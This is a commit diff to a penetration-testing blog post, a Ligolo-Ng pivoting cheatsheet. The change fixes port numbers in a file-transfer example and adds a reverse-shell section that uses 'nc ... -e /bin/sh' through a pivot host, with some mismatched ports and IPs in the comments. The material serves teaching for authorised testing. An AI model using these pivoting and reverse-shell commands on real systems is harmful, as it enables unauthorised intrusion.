

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-10-31-Ligolo-Ng-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 2786 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2024-10-31-Ligolo-Ng-Cheatsheet.md

````diff
--- a/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
+++ b/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
@@ -78,7 +78,7 @@
 # Now we are able to access the network 172.16.150.0/24
 ```
 
-## File Transfers Example with Single Pivot
+## File Transfer Example with Single Pivot
 In this example:
 - We got access into the Host B 172.16.150.20 (We are inside its CLI).
 - We previously set up our Pivot Host A, in this case 172.16.150.10.
@@ -86,13 +86,24 @@
 
 To achieve that, we will create a new listener in our active Ligolo-Ng session:
 ```shell
-# Create new listener - Port 1236 on Kali will be the Port 9003 on the Pivot Target
+# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
 # Enter the following on the running active Kali Ligolo-Ng session
-listener_add --addr 0.0.0.0:1236 --to 0.0.0.0:9003
-# Start Python server on Kali using Port 1236
-python3 -m http.server 1236
+listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001
+# Start Python server on Kali using Port 1234
+python3 -m http.server 1234
 # From the Host B CLI, access Python server through Port 9003 at the Pivot Host
-wget http://172.16.150.10:9003/test.txt
+wget http://172.16.150.10:9001/test.txt
 ```
 
 ## Reverse Shell Example with Single Pivot
+Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
+```shell
+# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
+# Enter the following on the running active Kali Ligolo-Ng session
+listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002
+# Start nc listener on Kali Port 1345
+nc -lvnp 1235
+# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
+nc 172.16.150.10 9002 -e /bin/sh
+# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
+```
````
